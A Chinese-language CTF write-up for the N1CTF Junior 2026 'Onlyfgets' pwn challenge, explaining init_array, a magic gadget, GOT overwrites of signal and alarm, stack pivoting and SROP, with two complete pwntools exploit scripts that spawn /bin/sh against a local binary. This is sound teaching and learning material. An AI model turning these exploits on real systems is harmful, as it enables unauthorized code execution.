








## Onlyfgets

看到网上大佬写的wp才知道原来12月份就有人发了原题的wp😅

本文算是一个学习记录吧，写在这供学习

保护开个nx


main函数就一个调用fgets


这里有两个很奇怪的函数，明明没被main函数调用，为什么要写这两个函数呢？
我们来看汇编代码

注意这个汇编注释

```Assembly language
; DATA XREF: .init_array:0000000000403E10↓o
```
这表明在地址 `0000000000403E10`（位于 `.init_array` 段内）存储了指向 `prison_realm_open` 函数的指针
而程序运行时的入口函数并不是main函数，实际上是start函数
流程大致如下
流程大致如下：

1. **`_start`** (程序入口点)
   
2. 调用 **`__libc_start_main`** (Glibc 的核心启动函数)
   
3. `__libc_start_main` 内部调用 **`__libc_csu_init`** (作为 `init` 参数传入)
   
4. **`__libc_csu_init`** (执行各种初始化)
   
    - 调用 `_init()`
      
    - 调用 `__init_array` 中的所有函数
    
5. **`main`** (用户的代码)
因此，这个prison_realm_open函数会在main函数调用之前执行
signal的原型是
```c
typedef void (*sighandler_t)(int);

sighandler_t signal(int signum, sighandler_t handler);
```
也就是当进程收到第几号信号后去执行后面的这个函数
而第14号信号则是 alarm函数到时间后，内核会发出的信号
所以执行完prison_realm_open函数后就会关闭缓冲区，以及设置好一个计时器，60秒后程序会自动退出
现在我们来看看gadgets

只有pop rdi;ret
至此如何解题？看似很简单对吧？但是注意这里没有任何的输出函数供我们泄露libc基址，理论上可以打ret2dlresolve，但是据说这里打本地没问题，打docker和远端会出问题
所以我们得换一种方法
在ida中看程序，我们很容易会发现出题人留了一个异或rbx的gadgets给我们

这个有什么用呢？
这里学习到了一个新的技巧，叫magic gadgets
大部分ELF都有`__do_global_dtors_aux`这个函数，对这条指令从中间进入可以解析为一个magic gadget


输入ROPgadgets --binary ./pwn 也可以寻找程序所有的gadgets
也是可以找到的，但不知道为什么ropper不行

即`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`这条指令
可以将ebx加到rbp-0x3d的地址处，乍一看这个gadgets不好用，rbp好控制，但是因为你得控制rbx才能达成半个任意地址写的功能，但是如果能结合ret2csu的gadgets就很好控制了
但是这里没有libc_csu_init函数，我们不好去控制rbx呀，那我们再去看看还有什么可供我们利用的gadgets
我们发现有这个gadgets：
`0x00000000004010ae : add bl, dh ; endbr64 ; ret
这会将rdx的高八位加到rbx的低8位上，结合我们的magic gadgets，我们可以做到一些可供我们利用的任意地址写
因为是partical relro，所以我们可以修改函数的got表储存的地址，来达到跳转

这里是让**ai**整理了一些相关知识

| **64位 (8-byte)** | **32位 (4-byte)** | **16位 (2-byte)** | **8位 (高位)** | **8位 (低位)**     | **说明**                           |
| ----------------- | ----------------- | ----------------- | -------------- | ------------------ | ---------------------------------- |
| **RAX**           | EAX               | AX                | **AH**         | **AL**             | 累加器 (常用于存储返回值)          |
| **RBX**           | EBX               | BX                | **BH**         | **BL**             | 基址寄存器                         |
| **RCX**           | ECX               | CX                | **CH**         | **CL**             | 计数器 (循环、移位)                |
| **RDX**           | EDX               | DX                | **DH**         | **DL**             | 数据寄存器 (常用于 `syscall` 参数) |
| **RSI**           | ESI               | SI                | -              | **SIL**            | 源变址寄存器                       |
| **RDI**           | EDI               | DI                | -              | **DIL**            | 目的变址寄存器 (第一个参数)        |
| **RBP**           | EBP               | BP                | -              | **BPL**            | 栈基址指针 (Stack Frame)           |
| **RSP**           | ESP               | SP                | -              | **SPL**            | 栈顶指针                           |
| **R8** - **R15**  | R8D - R15D        | R8W - R15W        | -              | **R8B** - **R15B** | 64位新增扩展寄存器                 |


  - **高位清零特性 (Zero-extension)**： 在 64 位模式下，当你对 **32 位**寄存器（如 `eax`）进行赋值时，CPU 会自动将该 64 位寄存器（如 `rax`）的**高 32 位清零**。
    
      > **注意**：对 16 位（`ax`）或 8 位（`al`）进行操作时，**不会**影响高位的值。
      
  - **AH/AL 与 SIL/DIL 的区别**： `ah` 到 `dh` 是传统的“高 8 位”寄存器。而对于 `rsi`、`rdi` 等寄存器，并没有对应的 `sih`，只能通过 `sil` (低 8 位) 进行访问。
    
  - **内存对齐与 Padding**： 在构造栈溢出 Payload 时，如果你看到汇编里是 `mov eax, [rbp-0x4]`，说明这是一个 4 字节的变量；如果是 `mov rax, [rbp-0x8]`，则是 8 字节。这直接决定了你填充垃圾数据（Padding）的长度。

  在 x86 架构中，**高八位（High 8-bit）** 是一个非常具体的历史遗留概念。为了让你在做 pwn 题构造 payload 时不踩坑，我们需要从**寄存器的物理结构**来看。

  “高八位”指的是 **16 位寄存器（如 AX）中的第 8 到第 15 位**。

  以 `RAX` 为例，我们可以将其拆解如下：

  - **RAX**: 64 位（全部）
    
  - **EAX**: 低 32 位
    
  - **AX**: 低 16 位
    
  - **AL (Low)**: `AX` 的低 8 位（第 0-7 位）
    
  - **AH (High)**: `AX` 的**高 8 位**（第 8-15 位）

  基于 `RAX = 0x1122334455667788` 这个例子，拆解如下：

  - **EAX (低32位)**: `0x55667788`
    
  - **AX (低16位)**: `0x7788`
    
  - **AH (AX的高8位)**: `0x77`
    
  - **AL (AX的低8位)**: `0x88`

  那么，我们修改哪两个函数好呢？
  这里我们就要用ida打开libc来找了
  
  我们发现在signal的附近有一个signaction，这里有一个gadgets

  ```Assembly language
  .text:0000000000042520 loc_42520:                              ; DATA XREF: __libc_sigaction+8A↓o
  .text:0000000000042520                 mov     rax, 15
  .text:0000000000042527                 syscall                 ; LINUX - sys_rt_sigreturn
  ```
  凭借这个gadgets，我们可以打srop，这是很好用的一种手法
  同样的，我们在alarm附近找到了一个execve
  
  至此，我们大致的思路就出来了
  首先溢出，反复利用magic gadgets将signal的got表改成mov rax,15 ,syscall处
  以供我们打srop。将alarm的got表改成execve的真实地址，我们利用srop设置好寄存器然后call alarm即execve来getshell
  
  我们运行到main函数结束，此时有`RDX  0xfbad208b`，则dh为0x20
  signal的偏移是0x42420，srop处是0x42520，计算得我们分别加4次和2次即可
  同理改alarm我们只需分别加6次和15次即可
  **这里注意由于bl是高8位寄存器，最大只能储存255，这里要注意不要让bl溢出了**
  也就是add bl dh的次数\*0x20要小于255
  然后返回到main函数，第三次输入我们打栈迁移，第四次输入打srop即可
  下面给出完整的exp

  ```python
  #!/usr/bin/env python3
  
  '''
      author: GeekCmore
      time: 2026-02-10 14:15:05
  '''
  from pwn import *
  
  filename = "pwn_patched"
  libcname = "/home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
  host = "127.0.0.1"
  port = 1337
  container_id = ""
  proc_name = ""
  elf = context.binary = ELF(filename)
  if libcname:
      libc = ELF(libcname)
  gs = '''
  b main
  set debug-file-directory /home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
  set directories /home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
  '''
  
  def start():
      if args.GDB:
          return gdb.debug(elf.path, gdbscript = gs)
      elif args.REMOTE:
          return remote(host, port)
      elif args.DOCKER:
          import docker
          from os import path
          p = remote(host, port)
          client = docker.from_env()
          container = client.containers.get(container_id=container_id)
          processes_info = container.top()
          titles = processes_info['Titles']
          processes = [dict(zip(titles, proc)) for proc in processes_info['Processes']]
          target_proc = []
          for proc in processes:
              cmd = proc.get('CMD', '')
              exe_path = cmd.split()[0] if cmd else ''
              exe_name = path.basename(exe_path)
              if exe_name == proc_name:
                  target_proc.append(proc)
          idx = 0
          if len(target_proc) > 1:
              for i, v in enumerate(target_proc):
                  print(f"{i} => {v}")
              idx = int(input(f"Which one:"))
          import tempfile
          with tempfile.NamedTemporaryFile(prefix = 'cpwn-gdbscript-', delete=False, suffix = '.gdb', mode = 'w') as tmp:
              tmp.write(f'shell rm {tmp.name}\n{gs}')
          print(tmp.name)
          run_in_new_terminal(["sudo", "gdb", "-p", target_proc[idx]['PID'], "-x", tmp.name])
          return p
      else:
          return process(elf.path)
  
  p = start()
  
  # Your exploit here
  
  gdb.attach(p)
  pause()
  
  pop_rdi=0x4011fc #pop rdi ; ret
  xor_rbx_ret=0x4011FE # xor rbx, rbx ; ret
  add_bl_dh_ret=0x4010ae # add bl, dh ; endbr64 ; ret
  magic_gadget=0x40114c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
  pop_rbp=0x40114d #pop rbp ; ret
  ret=0x40101a
  bss=0x404500
  
  payload1=b'a'*0x20+p64(elf.got['signal']+0x3d)+p64(add_bl_dh_ret)*4
  payload1+=p64(magic_gadget)*2+p64(xor_rbx_ret)+p64(elf.sym['main'])
  p.sendline(payload1)
  
  payload2=b'a'*0x20+p64(elf.got['alarm']+0x3d)+p64(add_bl_dh_ret)*6+p64(magic_gadget)*15+p64(elf.sym['main'])
  p.sendline(payload2)
  
  payload3=b'a'*0x20+p64(bss)+p64(0x4011DD)
  p.sendline(payload3)
  
      frame=SigreturnFrame()
  frame.rsp=bss-0x100
  frame.rip=elf.plt['alarm']
  frame.rdi=bss-0x20
  
  payload4=(b'/bin/sh\x00'+p64(0xdeedbeef)*4
            +p64(elf.plt['signal'])+bytes(frame))
  p.sendline(payload4)
  p.interactive()
  ```
  **提问**：如果这里不用elf.plt['signal']来开始srop而是用prison_realm_open的call \_signal来开始srop会怎样？
  那就有如下的exp
  ```python
  #!/usr/bin/env python3
  
  '''
      author: GeekCmore
      time: 2026-02-10 14:15:05
  '''
  from pwn import *
  
  filename = "pwn_patched"
  libcname = "/home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
  host = "127.0.0.1"
  port = 1337
  container_id = ""
  proc_name = ""
  elf = context.binary = ELF(filename)
  if libcname:
      libc = ELF(libcname)
  gs = '''
  b main
  set debug-file-directory /home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
  set directories /home/weir-su/.config/cpwn/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
  '''
  
  def start():
      if args.GDB:
          return gdb.debug(elf.path, gdbscript = gs)
      elif args.REMOTE:
          return remote(host, port)
      elif args.DOCKER:
          import docker
          from os import path
          p = remote(host, port)
          client = docker.from_env()
          container = client.containers.get(container_id=container_id)
          processes_info = container.top()
          titles = processes_info['Titles']
          processes = [dict(zip(titles, proc)) for proc in processes_info['Processes']]
          target_proc = []
          for proc in processes:
              cmd = proc.get('CMD', '')
              exe_path = cmd.split()[0] if cmd else ''
              exe_name = path.basename(exe_path)
              if exe_name == proc_name:
                  target_proc.append(proc)
          idx = 0
          if len(target_proc) > 1:
              for i, v in enumerate(target_proc):
                  print(f"{i} => {v}")
              idx = int(input(f"Which one:"))
          import tempfile
          with tempfile.NamedTemporaryFile(prefix = 'cpwn-gdbscript-', delete=False, suffix = '.gdb', mode = 'w') as tmp:
              tmp.write(f'shell rm {tmp.name}\n{gs}')
          print(tmp.name)
          run_in_new_terminal(["sudo", "gdb", "-p", target_proc[idx]['PID'], "-x", tmp.name])
          return p
      else:
          return process(elf.path)
  
  p = start()
  
  # Your exploit here
  
  gdb.attach(p)
  pause()
  
  pop_rdi=0x4011fc #pop rdi ; ret
  xor_rbx_ret=0x4011FE # xor rbx, rbx ; ret
  add_bl_dh_ret=0x4010ae # add bl, dh ; endbr64 ; ret
  magic_gadget=0x40114c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
  pop_rbp=0x40114d #pop rbp ; ret
  ret=0x40101a
  bss=0x404500
  call_signal=0x4011B4
  
  payload1=b'a'*0x20+p64(elf.got['signal']+0x3d)+p64(add_bl_dh_ret)*4
  payload1+=p64(magic_gadget)*2+p64(xor_rbx_ret)+p64(elf.sym['main'])
  p.sendline(payload1)
  
  payload2=b'a'*0x20+p64(elf.got['alarm']+0x3d)+p64(add_bl_dh_ret)*6+p64(magic_gadget)*15+p64(elf.sym['main'])
  p.sendline(payload2)
  
  payload3=b'a'*0x20+p64(bss)+p64(0x4011DD)
  p.sendline(payload3)
  
  frame=SigreturnFrame()
  frame.rcx=bss-0x100
  frame.rsp=elf.plt['alarm']
  frame.r15=bss-0x20
  frame.eflags=0x33
  
  payload4=(b'/bin/sh\x00'+p64(0xdeedbeef)*4
            +p64(call_signal)+bytes(frame))
  p.sendline(payload4)
  p.interactive()
  ```

  可以看到这里我们伪造的frame有点奇怪？为什么要设置rcx,r15,eflags呢？
  这就要我们回到srop中内核是从哪恢复寄存器了
  在srop中，内核会根据当前rsp所在处恢复寄存器
  我们有如下表格(也是**ai**整理的)

  | **偏移 (Offset)**                                            | **寄存器 (Register)**   | **说明 (Notes)**             |
  | ------------------------------------------------------------ | ----------------------- | ---------------------------- |
  | **0x00 - 0x28**                                              | `uc_flags` & `&uc_link` | 预留/标志位，通常填 0        |
  | **0x28 - 0x30**                                              | `uc_stack.ss_sp`        | 信号栈指针，通常填 0         |
  | **0x30 - 0x38**                                              | `uc_stack.ss_flags`     | 信号栈标志，通常填 0         |
  | **0x38 - 0x40**                                              | `uc_stack.ss_size`      | 信号栈大小，通常填 0         |
  | **0x40 - 0x48**                                              | **R8**                  | 通用寄存器                   |
  | **0x48 - 0x50**                                              | **R9**                  | 通用寄存器                   |
  | **0x50 - 0x58**                                              | **R10**                 | 通用寄存器                   |
  | **0x58 - 0x60**                                              | **R11**                 | 通用寄存器                   |
  | **0x60 - 0x68**                                              | **R12**                 | 通用寄存器                   |
  | **0x68 - 0x70**                                              | **R13**                 | 通用寄存器                   |
  | **0x70 - 0x78**                                              | **R14**                 | 通用寄存器                   |
  | **0x78 - 0x80**                                              | **R15**                 | 通用寄存器                   |
  | **0x80 - 0x88**                                              | **RDI**                 | **第 1 参数**                |
  | **0x88 - 0x90**                                              | **RSI**                 | **第 2 参数**                |
  | **0x90 - 0x98**                                              | **RBP**                 | 基址指针                     |
  | **0x98 - 0xA0**                                              | **RBX**                 | 通用寄存器                   |
  | **0xA0 - 0xA8**                                              | **RDX**                 | **第 3 参数**                |
  | **0xA8 - 0xB0**                                              | **RAX**                 | 系统调用号 / 返回值          |
  | **0xB0 - 0xB8**                                              | **RCX**                 | 通用寄存器 (Syscall 破坏)    |
  | **0xB8 - 0xC0**                                              | **RSP**                 | **栈顶指针**                 |
  | **0xC0 - 0xC8**                                              | **RIP**                 | **指令指针 (PC)**            |
  | **0xC8 - 0xD0**                                              | **EFLAGS**              | **标志寄存器**               |
  | **0xD0 - 0xD2**                                              | **CS / GS / FS**        | **段寄存器 (重要: CS=0x33)** |
  | **0xD8 ...**                                                 | `&fpstate`              | 浮点状态指针，通常填 0       |
  | 由于我们是call \_signal，call指令会将返回地址压栈，也就是rsp会减8字节，但是内核是根据rsp所在处按偏移恢复的 |                         |                              |
  | 举个例子，内核在恢复rdi的时候，会将rsp+0x80处的值给rdi       |                         |                              |
  |                                                              |                         |                              |

  但是我们这里rsp自减了8，也就是要在rsp-0x78处恢复一个值给rdi，但这里正是我们frame.r15处的地方，所以有一个错位，这里eflags设置为0x33是因为这样会恢复给寄存器cs，寄存器cs必须是0x33，否则内核马上会给段错误，而平时没有栈错位pwntools会自动给我们加一个frame.cs=0x33


  参考资料 / Reference：
  - [ItsFlicker - N1CTF Junior 2026 1/2 Pwn 全题解](https://blog.mcitd.cn/posts/n1ctf-junior-2026-1/wp/)
  - [ 小M安全 - N1CTF Junior 2026 1/2 pwn](https://mp.weixin.qq.com/s/QE9UsmW1qNYrUyQt45hIsw)